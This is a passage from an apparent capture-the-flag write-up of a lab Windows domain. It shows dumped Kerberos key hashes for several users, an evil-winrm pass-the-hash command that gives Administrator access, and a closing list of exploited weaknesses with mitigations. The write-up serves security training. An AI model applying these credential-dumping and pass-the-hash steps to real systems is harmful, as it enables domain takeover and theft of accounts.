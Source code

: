 ```
baby.vl\Connor.Wilkinson:des-cbc-md5:fda762e362ab7ad3
baby.vl\Joseph.Hughes:aes256-cts-hmac-sha1-96:2e5f25b14f3439bfc901d37f6c9e4dba4b5aca8b7d944957651655477d440d41
baby.vl\Joseph.Hughes:aes128-cts-hmac-sha1-96:39fa92e8012f1b3f7be63c7ca9fd6723
baby.vl\Joseph.Hughes:des-cbc-md5:02f1cd9e52e0f245
baby.vl\Kerry.Wilson:aes256-cts-hmac-sha1-96:db5f7da80e369ee269cd5b0dbaea74bf7f7c4dfb3673039e9e119bd5518ea0fb
baby.vl\Kerry.Wilson:aes128-cts-hmac-sha1-96:aebbe6f21c76460feeebea188affbe01
baby.vl\Kerry.Wilson:des-cbc-md5:1f191c8c49ce07fe
baby.vl\Teresa.Bell:aes256-cts-hmac-sha1-96:8bb9cf1637d547b31993d9b0391aa9f771633c8f2ed8dd7a71f2ee5b5c58fc84
baby.vl\Teresa.Bell:aes128-cts-hmac-sha1-96:99bf021e937e1291cc0b6e4d01d96c66
baby.vl\Teresa.Bell:des-cbc-md5:4cbcdc3de6b50ee9
baby.vl\Caroline.Robinson:aes256-cts-hmac-sha1-96:cad02c3f69f9f577bc0bfddce740fdc1149d851dc4b256dbf8a32e16ac125fae
baby.vl\Caroline.Robinson:aes128-cts-hmac-sha1-96:2b5237ba6be5ad5a3865268762b2defb
baby.vl\Caroline.Robinson:des-cbc-md5:f891769ea7d9e57f
[*] Cleaning up...

```

### Administrator Access

Using pass-the-hash with the extracted Administrator NTLM hash:

```
evil-winrm -i 10.10.105.113 -u Administrator -H ee4457ae59f1...............
```

We now have full Administrator access to the domain controller. The flag can be found in the Administrator's Desktop.

---

# Key Vulnerabilities Exploited

### 1. **Information Disclosure via LDAP**

- **Vulnerability:** Anonymous LDAP bind allowed complete domain enumeration.
- **Impact:** Disclosed all user accounts and organizational structure.
- **Mitigation:** Disable anonymous LDAP binds and implement proper LDAP access controls.

### 2. **Sensitive Information in User Descriptions**

- **Vulnerability:** Default password stored in user description field.
- **Impact:** Provided initial credentials for domain access.
- **Mitigation:** Never store passwords in user attributes; use secure password distribution methods.

### 3. **Password Policy Weakness**

- **Vulnerability:** Weak password requirements and password reuse.
- **Impact:** Same default password used across multiple accounts.
- **Mitigation:** Implement strong password policies and unique passwords per account.
